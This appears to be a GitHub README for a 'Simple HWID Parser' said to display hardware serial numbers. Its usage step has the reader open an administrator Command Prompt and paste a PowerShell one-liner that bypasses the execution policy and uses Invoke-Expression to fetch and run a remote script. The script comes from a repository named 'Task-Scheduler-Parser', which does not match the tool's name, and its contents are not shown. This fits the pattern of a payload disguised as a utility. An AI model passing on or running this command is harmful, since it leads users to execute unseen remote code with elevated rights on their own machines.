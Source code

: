 <p align="center">
  <a href="https://www.webopedia.com/definitions/hwid/">
    <img src="kita-ikuyo-rap.webp" alt="Banner">
  </a>
</p>

<h1 align="center">A <a href="https://www.webopedia.com/definitions/hwid/">HWID Parser</a>!</h1>
<p align="center">
  <a href="https://www.webopedia.com/definitions/hwid/">
  </a>
</p>
<h3 align="center">Simple HWID Parser</h3>

<p align="center">This tool collects and displays key hardware information about the system, such as the processor ID, physical memory serial numbers, and disk drive serial numbers. It runs a series of commands using Windows Management Instrumentation (WMI) and parses their results to display them directly in the Command Prompt for easy access and analysis.</p>

---

### Steps to use
1. Launch Command Prompt as Administrator
2. Use the script below and wait a few seconds till it publishs the results.

```powershell
powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/ObsessiveBf/Task-Scheduler-Parser/main/script.ps1')"
